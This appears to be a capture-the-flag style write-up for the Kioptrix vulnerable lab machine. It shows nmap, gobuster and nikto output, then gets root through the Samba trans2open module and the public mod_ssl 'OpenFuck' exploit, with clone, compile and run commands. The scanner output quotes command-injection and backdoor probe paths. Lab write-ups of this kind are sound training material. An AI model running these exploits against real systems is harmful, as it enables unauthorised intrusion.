

### Keoptrix machine
---

IP = {target_IP}

nmap scan \
    `nmap -sC -sV -p- {target_IP} -oN nmap-initial`
```
    22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|*sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|*  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|*  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: hMYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|*    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_ssl-date: 2024-04-07T04:10:25+00:00; +5h00m04s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 5h00m03s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```
---

Gobuster for the directories discovery\
 `gobuster dir --url {target_IP} -w ~/scripts/SecLists/Discovery/Web-Content/common.txt` 
```
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 268]
/cgi-bin/             (Status: 403) [Size: 272]
/index.html           (Status: 200) [Size: 2890]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/~operator            (Status: 403) [Size: 273]
/~root                (Status: 403) [Size: 269]
```

On the main page of the url we found `/etc/httpd/conf/httpd.conf`after visite this http://{target_IP}/etc/httpd/conf/httpd.conf we get informnation disclosure


---

We run nikto scan:
`nikto -url {target_IP}  `
```
Nikto v2.5.0
---

- Target IP: {target_IP}
- Target Hostname:{target_IP}
- Target Port: 80
- Start Time: 2023-04-06 19:28:01 (GMT-4)

---

- Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
- /: Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep 5 23:12:46 2001. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
- /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
- /: Apache is vulnerable to XSS via the Expect header. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3918
- Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
- mod_ssl/2.8.4 appears to be outdated (current is at least 2.9.6) (may depend on server version).
- OpenSSL/0.9.6b appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
- OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE .
- /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
- Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution.
- Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system.
- Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi.
- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
- ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
- /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-0835
- /manual/: Directory indexing found.
- /manual/: Web server manual found.
- /icons/: Directory indexing found.
- /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
- /test.php: This might be interesting.
- /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
- /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
- /shell?cat+/etc/hosts: A backdoor was identified.
- /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
- 8908 requests: 0 error(s) and 30 item(s) reported on remote host

---

```
We detect SMB version via msfconsole:\
Unix (Samba 2.2.1a)\
try to connect via smbclient:\
`smbclient -L \\\\{target_IP}\\  `


As we know the  smb version we can try to exploit it via 

**[Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)**



# We got root access! Congrats!
---

We can use the exploit of **[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)](https://github.com/heltonWernik/OpenLuck)**

1. Download OpenFuck.c

```
git clone https://github.com/heltonWernik/OpenFuck.git
```

1. Install ssl-dev library

```
apt-get install libssl-dev
```

1. It's Compile Time

```
gcc -o OpenFuck OpenFuck.c -lcrypto
```

1. Running the Exploit

```
./OpenFuck
```

1. See which service you witch to exploit. For example if you need to
Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a
option
./OpenFuck 0x6a [Target Ip] [port] -c 40

We execute the following command:

```
./OpenFuck 0x6b {target_IP} -c 40
```


# We got root access! Congrats!
